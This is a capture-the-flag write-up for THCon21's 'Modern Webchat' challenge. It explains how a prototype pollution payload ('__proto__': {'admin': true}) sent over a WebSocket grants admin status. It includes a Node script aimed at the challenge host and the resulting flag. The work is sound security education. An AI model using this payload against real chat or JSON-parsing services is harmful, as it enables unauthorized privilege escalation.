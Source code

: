# Modern Webchat

**Web** (250 points/ 5 solves)

## Description

IRC is a relic of the past.

## Solution

We visit the website and we land on a web chat where we can choose a nickname and a color. We can login and then be able to send messages.

From time to time we receive a message from the admin which says :

> **[admin]** **LePireBot**: _Message restricted to administrators._

Obviously we must fake the fact that we are admin in order to see the message.

When we start investigating on the app, we quickly find out a `main.js` file in the source code of the page.

 ```javascript
(() => {
  const escape = (string) =>
    string.replace(/[&<>"']/g, (chr) => {
      return {
        "&": "&amp;",
        "<": "&lt;",
        ">": "&gt;",
        '"': "&quot;",
        "'": "&#39;",
      }[chr];
    });

  const ws = new WebSocket("ws://" + location.host);

  const $loginForm = document.querySelector("#login-form");
  const $messageForm = document.querySelector("#message-form");
  const $messages = document.querySelector("#messages");

  const createMessage = (data) => {
    const $el = document.createElement("div");
    $el.className = "message";
    $el.innerHTML = `${
      data.user.admin ? "<strong>[admin]</strong> " : ""
    }<strong style="color:${data.user.color}">${escape(
      escape(data.user.nickname)
    )}</strong>: ${
      data.messageRestricted
        ? "<i>Message restricted to administrators.</i>"
        : escape(data.message)
    }`;
    return $el;
  };

  const displayConnectionError = () => {
    $messages.appendChild(
      createMessage({
        user: { nickname: "Error", color: "#ff0000" },
        message: "Connection closed unexpectedly. Please refresh the page.",
      })
    );
  };

  ws.onmessage = (e) => {
    const shouldScroll =
      $messages.scrollTop + $messages.clientHeight === $messages.scrollHeight;
    const data = JSON.parse(e.data);
    $messages.appendChild(createMessage(data));
    if (shouldScroll) {
      $messages.scrollTop = $messages.scrollHeight;
    }
    if ("successfulLogin" in data) {
      $loginForm.hidden = true;
      $messageForm.hidden = false;
    }
  };

  ws.onerror = ws.onclose = (e) => displayConnectionError();

  $loginForm.addEventListener("submit", (e) => {
    e.preventDefault();
    if (ws.readyState !== ws.OPEN) {
      return;
    }
    ws.send(
      JSON.stringify({
        nickname: $loginForm.elements.nickname.value,
        color: $loginForm.elements.color.value,
      })
    );
  });

  $messageForm.addEventListener("submit", (e) => {
    e.preventDefault();
    if (ws.readyState !== ws.OPEN) {
      return;
    }
    ws.send(
      JSON.stringify({
        message: $messageForm.elements.message.value,
      })
    );
    $messageForm.elements.message.value = "";
  });
})();
```

So basically what we learned from this file is that the chat is based on websockets and communicating using json data.

At this point we can assume that the goal of the challenge is not to perform an xss because this `escape` function will well prevent it.

```javascript
const escape = (string) =>
   string.replace(/[&<>"']/g, (chr) => {
     return {
       "&": "&amp;",
       "<": "&lt;",
       ">": "&gt;",
       '"': "&quot;",
       "'": "&#39;",
     }[chr];
   });
```

But we also find out that there is an admin property in the user class in `createMessage` function.

While debugging the websockets we can also see this admin property in the message received from the bot.

```json
{
  "user": { "nickname": "LePireBot", "color": "#ECA400", "admin": true },
  "messageRestricted": true
}
```

So the plan is to register as admin by setting admin to `true`, for that we gonna try to just append this at the end of the json data.
A classic registration looks like : 

```json
{"nickname": "xl00t", "color": "#1337FF"}
```

So our first payload is :

```json
{"nickname": "xloot", "color": "#1337FF", "admin": true}
```
But as suspected the payload will not be so simple.

After some research into the potential vulnerability of `JSON.parse()`, we find somes articles about **Prototype Pollution** in JS.

In simple terms this vulnerabity will allow us to add the admin property by using the prototype property of the user object.

Accessing a prototype in javascript can be done with `prototype` or `__proto__` property.

With that we can access object properties in different ways :

 - `user.nickname`
 - `user.prototype.nickname`
 - `user.__proto__.nickname`

Lets wrap up everything we learnt so far and craft our final payload :

```json
{
    "nickname": "xloot",
    "color": "#1337ff",
    "__proto__": {
        "admin": true
    }
}
```

We reuse and modify the `main.js` file we saw earlier in order to send our payload and wait for the bot message.

```javascript
const WebSocket = require('ws');

const ws = new WebSocket("ws://remote1.thcon.party:10001");
var input = process.openStdin();

ws.onmessage = (e) => {
  const data = JSON.parse(e.data);
  console.log(data);
};

input.addListener("data", function(mes) {
    if (ws.readyState !== ws.OPEN)
        return;

    var payload = '{"nickname": "xloot","color": "#1337ff","__proto__": {"admin": true}}';
    ws.send(payload);

    var messageJson = {message: mes.toString()};
    ws.send(JSON.stringify(messageJson));
});
```

Now we launch this script and enter a message in order to send our payload.

```
xl00t@DESKTOP:~/thcon/modern-chat$ node main.js
{
  user: { nickname: 'Info', color: '#0088ff' },
  message: 'Connected to the chat room.'
}
Gimme Flag
{
  user: { nickname: 'Info', color: '#0088ff' },
  message: 'xloot joined the chat room! 2 people connected.',
  successfulLogin: true
}
{
  user: { nickname: 'xloot', color: '#1337ff' },
  message: 'Gimme Flag\n'
}
{
  user: { nickname: 'LePireBot', color: '#ECA400', admin: true },
  message: 'Well done! Here is the flag: THCon21{__1000_points_pour_Gryffondor__}'
}
```

Well , we got the flag `THCon21{__1000_points_pour_Gryffondor__}` !

## References:
 - https://theflyingmantis.medium.com/javascript-a-prototype-based-language-7e814cc7ae0b
 - https://developer.mozilla.org/en-US/docs/Learn/JavaScript/Objects/Inheritance
 - https://medium.com/intrinsic/javascript-prototype-poisoning-vulnerabilities-in-the-wild-7bc15347c96
 - https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution

